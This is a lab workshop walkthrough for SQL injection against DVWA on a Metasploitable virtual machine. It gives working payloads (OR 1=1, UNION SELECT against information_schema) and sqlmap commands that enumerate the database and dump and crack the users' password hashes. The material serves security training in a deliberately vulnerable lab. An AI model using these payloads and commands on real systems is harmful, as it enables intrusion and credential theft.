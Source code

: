 # Workshop

## **1) Basic SQL Injection**

Set up Kali VM

set up Metasploitable VM 

set to same virtual network as Kali VM 

(switch both to same networks before powering on)

Get IP address of Metasploitable VM

![image.png](image.png)

visit webpage of Metasploitable VM through ip address 

![image.png](image%201.png)

click on DVWA

login using credentials ‘admin’ and ‘password’

![image.png](image%202.png)

Go to ‘DVWA Security’ tab

set the security to ‘low’ and submit

![image.png](image%203.png)

take a look at this webpage (sqli bible):

[https://github.com/payloadbox/sql-injection-payload-list](https://github.com/payloadbox/sql-injection-payload-list)

view source on SQL Injection page to view source code

![image.png](image%204.png)

Notice there is no input validation or sanitization to prevent certain combinations of letters and symbols being entered.

This means that you can manipulate the value of ‘$id’ and inject malicious SQL code.

(note: the key for # on Kali is £ on the keyboard)

If the ID of 1 is entered, it returns the info of the user who’s id = 1

![image.png](image%205.png)

the query executed in the database when this is entered is:

```jsx
1' OR '1'='1'#
```

this returns all users where 1=1 (where true)

![image.png](image%206.png)

In the MySQL documentation: [https://dev.mysql.com/doc/refman/8.4/en/information-schema.html](https://dev.mysql.com/doc/refman/8.4/en/information-schema.html)

it reveals that there is a table called ‘information_schema’ which stores information about the database containing the ‘users’ table. This will give us an idea for where to find passwords.

Using the information we have on ‘information_schema’, we can query to find the column names where the table name is ‘users’

```jsx
'UNION SELECT column_name, NULL FROM information_schema.columns WHERE table_name= 'users'#
```

Using union allows you to select multiple parameters 

Use the # character to end query 

![image.png](image%207.png)

We now know there are columns called ‘user’ and ‘password’ in the users table

This query selects the information from there columns in the table

```jsx
'UNION SELECT user, password FROM users #
```

It returns the username and hashed password from the users table

![image.png](image%208.png)

Completed. Yippee. <3

## **2) Blind SQL Injection**

For blind SQL Injection we need to use Burpsuite.

BEFORE opening Burpsuite, we need to configure a proxy with Burpsuite in Firefox:

Click the drop down menu in the top-right corner of Firefox and click on settings.

![image.png](image%209.png)

In the search bar search for ‘socks’ and click the top result.

![image.png](image%2010.png)

Switch to manual proxy configuration

set the HTTP Proxy to ‘127.0.0.1’ (localhost)

set the port to ‘8080’

select SOCKS_v5 

click ‘OK’

![image.png](image%2011.png)

Open up Burpsuite and select yes/okay to all popups except for the update one.

When you want to capture web requests from Firefox, go to the Proxy tab and turn Intercept on.

![image.png](image%2012.png)

Enter 2 into the User ID box and press submit

![image.png](image%2013.png)

Burpsuite will capture this request.

(note: the request will not be successfully submitted until you press ‘forward’)

![image.png](image%2014.png)

copy the cookie and session identifiers to a separate text file

![image.png](image%2015.png)

after clicking forward go back to Firefox and copy the URL to the same text file 

![image.png](image%2016.png)

Now we use sqlmap with these parameters (swap ip address and session id):

```jsx
sqlmap -u "http://192.168.4.150/dvwa/vulnerabilities/sqli_blind/?id=2&Submit=Submit#" --cookie="security=low; PHPSESSID=f1cf5e9f7d5b9dd272dc13885cc2501e"
```

This will check if the GET parameter ‘id’ is dynamic, meaning it can be manipulated.

![image.png](image%2017.png)

The terminal output confirms that the GET parameter ‘id’ is vulnerable to both SQL Injection and time-based blind injection.

The output also specifies that the website is running Apache 2.2.8 and that the back-end Database Management System (DBMS) is MySQL.

(note: to bypass any interactive prompts, add ‘—batch’ option to query)

Next we enumerate the available database schemas:

```jsx
sqlmap -u "http://192.168.4.150/dvwa/vulnerabilities/sqli_blind/?id=2&Submit=Submit#" --cookie="security=low; PHPSESSID=f1cf5e9f7d5b9dd272dc13885cc2501e" --schema --batch
```

This retrieves database information from multiple tables found but the ones we are interested in are: ‘dvwa’ and ‘information_schema’ which was mentioned perviously.

![image.png](image%2018.png)

To retrieve the tables from the DVWA database:

```jsx
sqlmap -u "http://192.168.4.150/dvwa/vulnerabilities/sqli_blind/?id=2&Submit=Submit#" --cookie="security=low; PHPSESSID=f1cf5e9f7d5b9dd272dc13885cc2501e" -D dvwa --tables
```

This returns two tables- ‘guestbook’ and ‘users’

![image.png](image%2019.png)

Since we are looking for usernames and passwords, we are interested in the ‘users’ table.

To determine the columns in the ‘users’ table we specify that we want columns, use -T to specify the table as ‘users’:

```jsx
sqlmap -u "http://192.168.4.150/dvwa/vulnerabilities/sqli_blind/?id=2&Submit=Submit#" --cookie="security=low; PHPSESSID=f1cf5e9f7d5b9dd272dc13885cc2501e" --columns -T users --batch
```

This identifies 6 columns inside the ‘users’ table.

![image.png](image%2020.png)

With this information we can now dump the usernames and passwords:

```jsx
sqlmap -u "http://192.168.4.150/dvwa/vulnerabilities/sqli_blind/?id=2&Submit=Submit#" --cookie="security=low; PHPSESSID=f1cf5e9f7d5b9dd272dc13885cc2501e" --dump -T users --batch
```

This returns all the information from the ‘users’ table.

sqlmap performs a dictionary-based attack to crack the passwords retrieved from the dump.

![image.png](image%2021.png)

Completed. Yippee. <3